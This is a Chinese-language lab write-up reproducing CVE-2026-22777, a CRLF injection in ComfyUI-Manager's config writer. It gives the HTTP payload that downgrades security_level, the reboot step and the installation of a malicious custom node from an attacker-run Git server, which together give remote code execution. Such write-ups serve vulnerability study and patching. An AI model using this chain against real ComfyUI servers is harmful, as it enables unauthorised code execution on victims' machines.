


# ComfyUI-Manager配置处理器CRLF注入漏洞（CVE-2026-22777）

ComfyUI是一款基于节点式工作流的Stable Diffusion专业图形界面，是开源AI绘画领域的核心项目之一。ComfyUI-Manager是ComfyUI的官方扩展管理器，负责管理自定义节点、模型和更新的安装。

在3.39.2之前的版本（以及4.0.0至4.0.4版本）中，`write_config()`函数在将用户提供的值写入`config.ini`文件时，未对CRLF字符进行过滤。攻击者可以在`/api/manager/db_mode`等配置接口的HTTP查询参数中注入回车符（`\r`）或换行符（`\n`），从而向配置文件中写入任意键值对。这使得攻击者可以篡改安全关键设置，例如将`security_level`从`normal`降级为`weak`，以此禁用高风险操作的限制（如从任意Git URL安装自定义节点）。结合`/api/manager/reboot`接口重启服务和`/customnode/install/git_url`接口安装恶意自定义节点，攻击者可以实现远程代码执行。利用此漏洞需要ComfyUI实例可通过网络访问（即使用`--listen`选项启动）。

注意：一个相关但不同的漏洞[CVE-2025-67303](https://github.com/vulhub/vulhub/tree/master/comfyui/CVE-2025-67303)已在v3.38版本中通过将配置数据迁移到受保护的`__manager`目录得到修复，阻止了通过ComfyUI的`/userdata/`API直接访问配置文件。但ComfyUI-Manager自身的API接口（如`/api/manager/db_mode`）在写入配置时仍未过滤CRLF字符。本环境使用ComfyUI-Manager 3.39.1，其中CVE-2025-67303已修复，但CRLF注入仍可利用。

参考链接：

- <https://github.com/Comfy-Org/ComfyUI-Manager/security/advisories/GHSA-562r-8445-54r2>
- <https://nvd.nist.gov/vuln/detail/CVE-2026-22777>

## 环境搭建

执行如下命令启动ComfyUI-Manager 3.39.1漏洞环境：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8188`即可看到ComfyUI的界面。

## 漏洞复现

默认情况下，`/customnode/install/git_url`接口受安全限制保护。直接尝试安装自定义节点会返回403 Forbidden响应：


为了绕过这个限制，向`/api/manager/db_mode`接口发送请求，将`security_level = weak`配置注入到`config.ini`文件中。Payload中的`%0D`是URL编码的回车符（`\r`），它会使Python的`configparser`将其后的内容作为新的配置项处理：

```
GET /api/manager/db_mode?value=cache%0Dsecurity_level%20=%20weak HTTP/1.1
Host: your-ip:8188
```


接着，向`/api/manager/reboot`接口发送请求来重启ComfyUI服务，使新配置生效。服务器重启后（等待几秒钟让服务完全启动），在宿主机上运行[evil-git-server.py](https://github.com/vulhub/vulhub/blob/master/comfyui/CVE-2025-67303/evil-git-server.py)脚本，启动一个本地Git HTTP服务器来托管恶意自定义节点：

```bash
python evil-git-server.py
```

脚本会输出带有随机后缀的恶意仓库URL（例如`http://your-ip:9999/evil-node-abc123`）。向`/customnode/install/git_url`接口发送POST请求，从本地Git服务器安装恶意自定义节点。将`your-ip`替换为Docker容器可访问的宿主机IP地址，并使用PoC脚本输出的仓库URL：

```
POST /customnode/install/git_url HTTP/1.1
Host: your-ip:8188
Content-Type: text/plain

http://your-ip:9999/evil-node-abc123
```



恶意Git服务器会收到来自ComfyUI服务器的多个请求，用于克隆恶意仓库：



恶意代码会在安装过程中立即执行。可以通过检查容器内是否存在`/tmp/success`文件来验证命令已被执行：

```bash
docker compose exec web ls -al /tmp/
```


恶意自定义节点的`install.py`文件包含以下代码，这些代码会在安装过程中被执行：

```python
import subprocess
subprocess.run(["touch", "/tmp/success"])
```

在实际攻击场景中，攻击者会将恶意自定义节点托管在公开的Git仓库中，利用此漏洞链在无需用户交互的情况下远程安装恶意节点。
